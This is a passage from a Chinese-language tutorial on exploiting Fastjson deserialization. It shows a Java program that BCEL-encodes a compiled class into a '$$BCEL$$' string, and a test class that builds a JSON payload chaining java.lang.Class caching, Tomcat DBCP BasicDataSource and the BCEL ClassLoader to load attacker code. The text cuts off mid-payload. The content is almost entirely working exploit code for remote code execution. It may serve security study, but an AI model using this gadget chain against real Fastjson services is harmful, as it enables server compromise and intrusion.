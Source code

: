 ```
        }
        throw  new Exception(buffer.toString());
    }
}
```

接下来编写BCELencode.java对上述脚本进行BCEL编码

```
import com.sun.org.apache.bcel.internal.classfile.Utility;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class BCELencode {
    public static void main(String []args) throws Exception{
        Path path = Paths.get("C:\\Users\\xxxxxx\\TestError.class");  //文件绝对路径
        byte[] data = Files.readAllBytes(path);
        String classname =  Utility.encode(data,true);
        classname = "$$BCEL$$"+classname;
        System.out.println(classname);
//        ClassLoader cls=new com.sun.org.apache.bcel.internal.util.ClassLoader();
//        Class.forName(classname,true,cls);
    }
}
```



接下来尝试运行测试，driverClassName填入上面生成的字符串

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        String json_1 = "\n" +
                "{\n" +
                "    \"a\": {\n" +
                "        \"@type\": \"java.lang.Class\",\n" +
                "        \"val\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"\n" +
                "    },\n" +
                "    \"b\": {\n" +
                "        \"@type\": \"java.lang.Class\",\n" +
                "        \"val\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "    },\n" +
                "    \"c\": {\n" +
                "        \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "        \"driverClassLoader\": {\n" +
                "            \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "        },\n" +
```
